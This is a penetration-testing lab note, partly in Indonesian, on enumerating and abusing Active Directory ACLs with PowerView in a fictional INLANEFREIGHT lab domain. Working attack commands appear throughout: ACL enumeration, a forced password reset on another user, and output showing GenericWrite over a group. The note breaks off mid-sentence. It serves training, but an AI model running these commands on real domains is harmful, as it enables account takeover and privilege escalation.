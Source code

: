 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```python
	
- ForceChangePassword:  abused with Set-DomainUserPassword
- Add Members:  abused with Add-DomainGroupMember
- GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite:  abused with Set-DomainObject
- WriteOwner:  abused with Set-DomainObjectOwner
- WriteDACL:  abused with Add-DomainObjectACL
- AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself:  abused with Add-DomainGroupMember
```

## ACL Enumeration With Powerview

**Assume we have username wley as compromised user**

### ForceChangePassword
#### using Get-DomainObjectACL

```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##Vulnerable Output
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# ObjectAceType with above value meaning for Force-change-password
(https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password)
```


#### Using -ResolveGUIDs Flag
```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

#### Enumerate All User
```python
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

### Abusing Force Change Password
**changing wley password without knowing his old password**

1. Store Password user kita ke powershell credential
   
```python
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```python
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

#### Generic Write

```python
# Generic All Enumeration
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. and with 

```
